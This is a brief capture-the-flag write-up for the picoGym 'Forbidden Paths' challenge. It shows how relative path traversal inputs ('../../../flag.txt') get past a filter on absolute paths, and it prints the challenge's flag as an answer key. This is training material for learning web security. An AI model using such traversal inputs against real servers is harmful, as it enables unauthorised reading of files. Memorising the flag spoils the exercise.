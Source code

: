 # picoGym Level 270: Forbidden Paths
Source: https://play.picoctf.org/practice/challenge/270

## Goal
Can you get the flag?<br>
We know that the website files live in <b>/usr/share/nginx/html/<b> and the flag is at <b>/flag.txt</b> but the website is filtering absolute file paths. Can you get past the filter to read the flag?<br>
Here's the website.<br>
http://saturn.picoctf.net:58629/

## What I learned
```
Absolute Path
Relative Path
change directory
```

## Solution
```
https://webshell.picoctf.org/

Input: / ⌨️
Not Authorized
Input: ./ ⌨️

Input: ../flag.txt ⌨️
File does not exist
Input: ../../flag.txt ⌨️
File does not exist
Input: ../../../flag.txt ⌨️
picoCTF{7h3_p47h_70_5ucc355_6db46514} 🔐
```

## Flag
picoCTF{7h3_p47h_70_5ucc355_6db46514}

## Continue
[Continue](./picoGym0295.md)